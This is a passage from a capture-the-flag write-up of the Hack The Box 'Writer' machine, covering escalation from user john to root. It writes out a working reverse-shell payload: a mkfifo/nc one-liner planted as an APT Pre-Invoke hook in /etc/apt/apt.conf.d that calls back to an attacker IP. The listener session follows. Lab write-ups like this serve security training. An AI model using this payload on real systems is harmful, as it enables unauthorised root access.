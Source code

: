 ### Obtaining a root shell
Executing Linpeas.sh script on user ```john```, we realize that ```john``` is part of the ```management``` group and this group have a writable file ```/etc/apt/apt.conf.d```

```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

<img src = "https://github.com/joelczk/writeups/blob/main/HTB/Images/writer/apt_management.PNG" width = "1000">

From the POSTFIX files, we realize that the ```disclaimer``` program will be executed when the user is ```john```. This would tell use that modification of ```/etc/apt/apt.conf.d``` directory will be executed by ```disclaimer```.

```
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

Now, we will try to create a reverse shell by creating a payload in the ```/etc/apt/apt.conf.d``` directory

```
john@writer:~$ cd /etc/apt/apt.conf.d
john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444 >/tmp/f"};' > payload
```
### Obtaining root flag
Finally, we will stabilize the shell and extract the system flag

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 45550
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@writer:/tmp# export TERM=xterm
export TERM=xterm
root@writer:/tmp# stty cols 132 rows 34
stty cols 132 rows 34
root@writer:/tmp# cd
cd
root@writer:~# ls
ls
root.txt  snap
root@writer:~# cat root.txt
cat root.txt
<Redacted system flag>
root@writer:~#
```
